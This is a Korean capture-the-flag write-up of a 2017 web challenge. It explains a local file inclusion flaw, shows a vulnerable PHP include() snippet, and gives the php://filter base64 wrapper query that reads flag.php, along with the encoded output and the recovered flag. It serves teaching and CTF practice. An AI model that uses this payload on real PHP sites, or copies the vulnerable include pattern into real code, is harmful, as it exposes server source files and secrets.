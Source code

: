 # 2017 h3x0r - [WEB] LFI

## Key words

- Local File Inclusion (LFI)
- PHP Wrapper

## Solution

문제에 접속하면 `Shell Command`를 입력하라고 뜨지만 실제로는 `Command Injection`이 되는것은 아니고 `ls`만 가능하며 나타나는 목록은 다음과 같습니다.

- flag.php
- aoba.php
- sagiri.php

그리고 사용자에게 파일명을 입력 받을 수 있는 `Input box`가 하나 생성됩니다.

```html
<form action='./chall.php' method='get'>
  input file name : <input type='text' name='file'>
</form>
```

`chall.php`에 `$_GET['file']`로 파일명을 넘겨 주는 것 같습니다.

하지만 실제로는 잘 동작하지 않고, 조금 테스트를 하다가 내린 결론은 다음과 같습니다.

- 문제명이 `LFI`
- `aoba.php`를 넣었을 경우 `base64`에 대해 아는지 물어 보는 텍스트

결론적으로 `php wrapper`를 이용한 문제 입니다.

`LFI`가 발생되는 기본저인 PHP 코드는 다음과 같습니다.

```php
<?php
$file_name = $_GET['file'];
include("pages/$file_name");
?>
```

따라서 `$_GET['file']`에 PHP 래퍼를 넣어 `flag.php`를 읽는 쿼리는 같습니다.

> chall.php?file=php://filter/convert.base64-encode/resource=flag.php

다음과 같이 쿼리를 전송하게 되면 페이지에 flag.php에 대한 내용이 `base64` 형태로 뜨게 되고 이를 디코딩 하게 되면 정답이 나오게 됩니다.

> PD9waHAKICAgIGVjaG8gIlVzZSBMRkkhIjsKICAgICRmbGFnID0gIkgzWDBSe2EwYmFfYzB0ZV9hZG0xdD99IjsK

```
<?php
    echo "Use LFI!";
    $flag = "H3X0R{a0ba_c0te_adm1t?}";
```
